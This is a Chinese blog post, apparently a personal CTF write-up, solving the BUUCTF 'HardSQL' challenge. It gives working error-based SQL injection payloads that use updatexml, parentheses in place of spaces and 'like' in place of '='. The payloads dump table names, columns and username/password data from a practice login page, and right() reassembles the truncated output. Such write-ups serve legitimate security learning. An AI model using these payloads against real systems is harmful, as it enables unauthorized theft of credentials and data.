


BUUCTF-Web-[极客大挑战 2019]HardSQL
本文为记录个人信安小白的刷题路程，大佬勿喷，也同时希望文章能对您有所帮助
打开靶机，又是熟悉的登录界面，但是这次他提示hardsql，看来上强度了，
还是先试试是什么类型的注入漏洞，
1 | 1' |

有回显，是字符型注入漏洞，
试试爆字段数，
1 | 1' order by 3# |
被过滤了，多次尝试注入发现过滤了*，空格，+，=等符号，
可以试试报错注入，
updatexml函数
UPDATEXML 是SQL中的一种XML处理函数，主要用于修改XML文档中的特定节点内容。它在多种数据库系统中都有实现，包括Oracle、MySQL等。
基本语法
1 | UPDATEXML(xml_target, xpath_expr, new_value) |
注入原理
UPDATEXML函数在解析XPath表达式时，如果表达式格式错误或路径不存在，会返回错误信息
例子：
1 | 1' or updatexml(1,concat(0x7e,database()),1)# |
爆数据库名
将用空格隔开的sql语句使用()包括，例如select(databse())
1 | 1'or(updatexml(1,concat(0x7e,database()),1))# |
爆表名
等号过滤绕过可以使用like进行替代
1 | 1'or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like(database()))),1))# |
爆列名（字段数）
1 | 1'or(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1'))),1))# |
爆flag
1 | 1'or(updatexml(1,concat(0x7e,(select(group_concat(concat(id,';',username,';',password)))from(H4rDsq1))),1))# |

发现回显字符长度被限制，不能显示完整的flag字段，只是查询password字段也不行，
可以使用right()函数对后半部分数据进行读取，然后进行拼接
1 | 1'or(updatexml(1,concat(0x7e,(select(group_concat(right(password,30)))from(H4rDsq1))),1))# |

拼接获得flag
本博客所有文章除特别声明外，均采用 CC BY-NC-SA 4.0 许可协议。转载请注明来源 半枫！